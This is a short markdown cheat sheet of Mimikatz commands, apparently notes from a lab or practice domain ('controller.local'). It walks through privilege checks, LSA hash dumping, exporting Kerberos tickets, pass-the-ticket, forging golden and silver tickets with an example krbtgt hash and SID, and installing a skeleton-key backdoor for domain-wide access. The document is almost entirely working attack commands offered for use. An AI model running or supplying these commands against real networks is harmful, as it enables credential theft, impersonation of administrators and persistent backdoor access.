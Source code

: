 ### check privs
`privilege::debug`
Output '20' means you have admin privs

---

### basic hash dump

`lsadump::lsa /patch`

---

### export .kirbi tickets into current dir
`sekurlsa::tickets /export`

try looking for admin ticket from krbtgt

---

### pass the ticket
`kerberos::ptt <ticket>` 
will cache and impersonate given ticket

example: 
```
kerberos::ptt [0;2a7822]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi
```

you will now have the ticket in your cache. you can verify in cmd using `klist`

---

### golden ticket

`lsadump::lsa /inject /name:krbtgt` 
will dump NTLM hash and SID needed to create golden ticket

for silver ticket you need to change `/name:` to dump hash of domain admin or service account

Creating the golden ticket:
`kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:`

example:
```
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-15021
58860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:500
```

to create a silver ticket - put a service NTLM hash into the krbtgt slot, the sid of the service account into sid, and change the id to 1103.


---

### using the ticket
`misc::cmd`
open a new elevated cmd prompt with given ticket

---

### skeleton key (kerberos backdoor)
`misc::skeleton`

**examples**

`net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz`
The share will now be accessible without the need for the Administrators password

`dir \\Desktop-1\c$ /user:Machine1 mimikatz`
access the directory of Desktop-1 without ever knowing what users have access to Desktop-1